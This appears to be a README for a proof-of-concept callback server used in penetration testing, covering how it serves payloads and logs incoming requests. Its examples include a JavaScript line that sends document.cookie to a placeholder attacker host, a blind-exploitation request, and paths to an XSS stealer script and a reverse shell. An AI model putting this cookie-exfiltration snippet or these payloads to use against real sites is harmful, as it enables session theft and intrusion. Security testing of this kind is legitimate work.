 # POC Server

Single HTTP server that does everything you need for POC development.

## Features

- Serves files from `../payloads/` directory
- Logs ALL requests to `../logs/server.ndjson`
- CORS enabled for XSS testing
- Handles GET/POST/OPTIONS
- Minimal console output

## Usage

```bash
# Default: port 8000
python servers/server.py

# Custom port/bind
python servers/server.py -p 8080 -b 127.0.0.1
```

## Examples

### XSS Callback
```javascript
fetch('http://your-server:8000/xss?c=' + document.cookie)
```

### Blind Exploitation
```python
requests.get(f"http://your-server:8000/blind?id=test")
```

### Serve Payloads
Place files in `payloads/` and access at:
```
http://your-server:8000/xss/steal.js
http://your-server:8000/shells/reverse.py
```

### Check Logs
```bash
# Watch logs in real-time
tail -f logs/server.ndjson | jq .

# Search logs
grep "xss" logs/server.ndjson | jq .
```